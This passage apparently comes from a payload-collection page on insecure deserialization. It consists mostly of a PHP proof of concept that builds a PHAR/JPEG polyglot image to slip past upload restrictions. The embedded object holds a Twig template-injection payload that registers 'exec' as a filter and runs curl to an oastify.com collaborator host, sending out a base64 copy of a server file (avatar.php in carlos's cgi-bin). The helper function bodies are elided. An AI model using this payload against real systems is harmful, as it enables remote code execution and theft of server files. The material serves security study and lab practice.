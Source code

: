 Poc exploiting a [Server Side Template Injection (SSTI)](Server%20Side%20Template%20Injection%20(SSTI).md) combined with the deserialization.vGenerated a PHP/JPEG polyglot image to bypass file upload restrictions still having a valid PHP [^polyglot] :

[^polyglot]: https://github.com/kunte0/phar-jpg-polyglot/tree/master

```php
<?php

function generate_base_phar($o, $prefix){
    ...
}

function generate_polyglot($phar, $jpeg){
    ...
}


// add object of any class as meta data
class Blog {};
class CustomTemplate {};
$object = new CustomTemplate();
$blog = new Blog();
$blog->desc = '{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("curl http://srnvx8ptwvc6xlhwtdfvn7jds4yvmlaa.oastify.com/?$(cat /home/carlos/cgi-bin/avatar.php|base64 -w0)")}}{{_self.env.getFilter("cat /home/carlos/cgi-bin/avatar.php|base64 -w0")}}';
$blog->user = 'user';
$object->template_file_path = $blog;


// config for jpg
$tempname = 'temp.tar.phar'; // make it tar
$jpeg = file_get_contents('in.jpg');
$outfile = 'out.jpg';
$payload = $object;
$prefix = '';

var_dump(serialize($object));


// make jpg
file_put_contents($outfile, generate_polyglot(generate_base_phar($payload, $prefix), $jpeg));

/*
// config for gif
$prefix = "\x47\x49\x46\x38\x39\x61" . "\x2c\x01\x2c\x01"; // gif header, size 300 x 300
$tempname = 'temp.phar'; // make it phar
$outfile = 'out.gif';

// make gif
file_put_contents($outfile, generate_base_phar($payload, $prefix));

*/
```


[^34040]: [Java Deserialization Vulnerability Still Alive](https://blog.pyn3rd.com/2023/10/20/Java-Deserialization-Vulnerability-Still-Alive/), pyn3rd.com